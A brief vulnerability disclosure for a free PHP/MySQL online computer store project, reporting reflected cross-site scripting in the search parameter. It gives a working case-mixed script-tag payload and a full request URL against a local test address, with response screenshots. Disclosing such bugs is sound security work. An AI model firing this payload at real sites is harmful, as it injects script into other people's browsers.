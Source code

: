 

# Online Computer and Laptop Store using PHP and MySQL Source Code Free Download Submitted by oretnom23 has Cross-site Scripting

#### BUG_Author: xxxw

vendors:https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html

Payload: ?search=2nnnffffff'"()%26bbnnbb%hhh2bbb5<zbbbzz><ScRiPt%2n0>pleaserequest:www.xxx.com</ScRiPt>

Request URL : http://192.168.3.11/php-ocls/index.php?search=2nnnffffff'"()%26bbnnbb%hhh2bbb5<zbbbzz><ScRiPt%2n0>pleaserequest:www.xxx.com</ScRiPt>

#### Response：

![image-20231202010912502](https://gitee.com/xw1150/images/raw/master/img/202312020109268.png)

#### Postman :

![image-20231202011402498](https://gitee.com/xw1150/images/raw/master/img/202312020114678.png)!(https://gitee.com/xw1150/images/raw/master/img/202312020113339.png)